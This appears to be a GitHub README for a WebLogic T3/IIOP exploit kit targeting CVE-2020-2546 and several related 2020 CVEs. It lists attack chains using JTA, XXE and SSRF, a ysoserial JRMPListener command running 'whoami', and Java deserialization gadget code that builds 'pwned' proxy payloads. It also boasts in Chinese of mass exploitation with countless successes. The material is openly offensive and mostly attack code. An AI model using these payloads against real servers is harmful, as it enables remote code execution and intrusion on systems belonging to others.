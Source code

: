 # 1、Weblogic 1day
CVE_2020_2546 CVE-2020-2915 CVE-2020-2801  CVE-2020-2798  CVE-2020-2883 CVE-2020-2884 CVE-2020-2950 WebLogic T3 payload exploit pot python3

# 2、exploit
- GIOP + send bind (CVE-2020-2555 or others)
- GIOP + send jta (rmi or others)
- GIOP + send jta + ssrf
- T3 + send jta
- T3 + send jta + ssrf
- T3 + send XXE
- T3 + send XXE + ssrf

#### 2.1、rmi server,see
- don't use org.mozilla.classfile.DefiningClassLoader
- don't use java -cp $mtx/../tools/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 Jdk7u21 'whoami'
more see:
https://github.com/hktalent/CVE-2020-2551

# 3、code
### 3.1、code n1
```
MVEL.compileExpression
MvelExtractor o = new MvelExtractor("xxx;");
		ObjectOutputStream oo = new ObjectOutputStream(System.out); 
		oo.writeObject(o);
		oo.flush();
```

### 3.2、code1
```
public MsgOutput getObject(final String command) throws Exception {
	  String jndiAddress = command;
		JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
		jtaTransactionManager.setUserTransactionName(jndiAddress);
		MsgOutput remote = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", jtaTransactionManager), MsgOutput.class);
    return remote;
  }
```

### 3.3、code2
```
public IORDelegate getObject(final String command) throws Exception {
IORDelegate ior = Gadgets.createMemoitizedProxy(Gadgets.createMap("pwned", new Jdk7u21().getObject("whoami")), IORDelegate.class);
    return ior;
  }
```

# 4、CVE-2020-2546 payload
#### 批量一波，成功无数
<img width="621" alt="image" src="https://user-images.githubusercontent.com/18223385/75693161-8c550300-5ce1-11ea-9c28-3e81a6c72d28.png">


# 5、thanks for
@[r4v3zn](https://github.com/r4v3zn)
@[0nise](https://github.com/0nise)
